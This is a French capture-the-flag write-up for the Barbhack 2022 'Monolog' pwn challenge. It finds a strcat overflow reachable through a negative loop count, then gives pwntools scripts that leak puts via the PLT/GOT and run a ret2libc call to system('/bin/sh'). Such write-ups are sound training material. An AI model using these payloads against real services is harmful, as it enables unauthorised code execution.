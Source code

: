 # Monolog - catégorie PWN

**Disclaimer: Je n'ai pas participé au ctf Barbhack 2022, mais des collègues ont pu me fournir ce challenge quelques jours après l'évent. Voici comment je l'ai résolu**

## Analyse statique

Le comportement normal du binaire :
![](./data/normal_behaviour.png)

En ouvrant le binaire avec ghidra, on remarque que la fonction main ne sert qu'à appeller la fonction ``monolog``, qui est notre fonction vulnérable. Son code décompilé ressemble à ça :
![](./data/monolog_code.png)

Le while décompilé à l'air un peu compliqué à comprendre, mais concrètement, la boucle ne sert qu'à ça :
<a name="boucle"></a>
```c
for (int i = input_number; i == 0; --i)
{
	/* code */
}
```

En lisant le reste du code, on voit que ``fgets`` est utilisé pour lire l'entrée utilisateur, et qu'à priori il n'y a pas de possibilité de faire un buffer overflow via ces appels. (Le buffer1 à une taille de 100, et lorsqu'on le remplit, soit on lit 10 caractère soit 100, donc on a pas de place supplémentaire pour injecter dans la mémoire)

Par contre, on remarque un appel ``strcat(buffer1, buffer2)`` à la ligne 28. Je n'avais jamais vu cette fonction avant, et voilà ce que nous dit le manuel dessus:
![](./data/man_strcat.png)


``[...] the dest string must have enough space for the result.  If dest is not large enough, program behavior is unpredictable``

Et voilà notre vecteur d'attaque, on va créer un buffer overflow via une mauvaise utilisation de strcat. Ici, ``dest`` est notre buffer2 de taille de 1000, et buffer1 notre input à chaque tour de boucle, d'une taille de 100. Si on utilise le programme normalement, ça reste toujours impossible d'exploiter strcat, parce que la valeur maximale de ``input_number``, (qui détermine combien de fois on a le droit de "parler") est de 10. 10\*100 = 1000, le buffer2 est toujours assez grand pour tout stocker sans déborder dans la mémoire.
Mais si on regarde bien la condition de la [boucle](#boucle), on voit que le test est ``i == 0``. Donc si on rentre un nombre qui est inférieur à 0, on va avoir une boucle infinie. Et donc on pourra remplit notre buffer2 autant qu'on voudra...

Maintenant qu'on a notre plan, il reste plus qu'à l'exploiter.


## Exploitation

Grâce à un petit checksec, on sait quel genre de buffer overflow on va devoir faire; vu que la stack n'est pas éxecutable (NX), on va devoir faire une attaque [ret2libc](https://beta.hackndo.com/retour-a-la-libc/)

![](./data/checksec.png)

(L'ASLR sera aussi activé, les adresse des fonctions de libraries seront randomisées)

### Leak puts
Voici à quoi ressemblera notre programme pour leak l'adresse de puts, qui nous permettra de calculer l'adresse de la libc :
```py
from pwn import *


context.binary = binary = ELF("./monolog")

OFFSET = ????

puts_libc = binary.libc.sym["puts"]
puts_plt = binary.plt["puts"]
puts_got = binary.got["puts"]
main = binary.sym["main"]

payload = b''.join([
		b"A"*OFFSET,
		p32(puts_plt),
		p32(main),
		p32(puts_got),
	])

p = process()
p.sendline(b"-1")
p.sendline(payload)
p.sendline(b"stop")
p.readuntil(b"monolog : ")
p.readuntil(b"\n\n")

leaked = u32(p.readline().strip()[:4])
libc_addr = leaked - puts_libc

print("puts :", hex(leaked), "- libc :", hex(libc_addr))
```

(Pour comprendre le fonctionnement théorique de l'exploit et les sections PLT & GOT : [1](https://www.youtube.com/watch?v=kUk5pw4w0h4), [2](https://www.youtube.com/watch?v=PVSrbXPAc-Y), [3](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html), [4](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address))

Pour trouver notre offset, on va lancer le binaire dans gdb. Ma façon de faire à été de rentrer 2 string reconnaissable pour pouvoir localiser le buffer2 dans la stack, "AAA" et "BBB", puis de trouver l'adresse du saved EIP pour calculer l'offset nécessaire entre le début du buffer2 et l'adresse du EIP.

![](./data/find_buffer2.png)

Tout en haut de notre stack, on a comme prévu notre dernière input, ``0x0a424242`` correspond à "BBB\n". Un peu plus loin, en ``0xffffd124`` on retrouve notre buffer2 avec la première input, "AAA\n". 

En utilisant ensuite ``info frame`` on est capable de trouver à quel adresse se trouve EIP et ainsi on peut simplement faire une soustraction pour calculer l'offset

![](./data/offset_calc.png)

En mettant l'offset à 1016, et en lançant notre script on obtient comme résultat:

![](./data/leak_puts.png)


### Call system

Pour appeller ``system``, maintenant qu'on connait l'adresse de libc dans le binaire, il ne nous reste plus qu'à rajouter quelques variables dans le script et rentrer un nouveau payload:

```py
system_libc = binary.libc.sym["system"]
binsh_libc = next(binary.libc.search(b"/bin/sh"))

system = libc_addr + system_libc
binsh = libc_addr + binsh_libc

payload = b''.join([
		b"A"*1016,
		p32(system),
		p32(main),
		p32(binsh)
	])

p.sendline(b"-1")
p.sendline(payload)
p.sendline(b"stop")
p.readrepeat(.5)
p.interactive()
```

Le script final est [ici](./exploit.py) et une fois lancé, on a un exploit fonctionnel:
![](./data/final.png)
